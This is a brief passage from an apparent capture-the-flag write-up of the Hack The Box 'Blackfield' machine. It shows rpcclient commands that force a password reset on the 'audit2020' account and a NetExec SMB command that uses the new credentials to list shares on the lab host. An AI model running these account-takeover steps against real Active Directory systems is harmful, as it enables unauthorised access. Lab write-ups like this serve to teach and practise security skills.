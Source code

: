 ![screenshot](/assets/images/blackfield5.png)

To abuse this, we can use rpcclient to set the password.

```sh
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
# setuserinfo username 23 password
```

![screenshot](/assets/images/blackfield6.png)

## Password Spray
```sh
nxc smb 10.10.10.192 -u audit2020 -p 'H@CKTHEB0X#' --shares
```
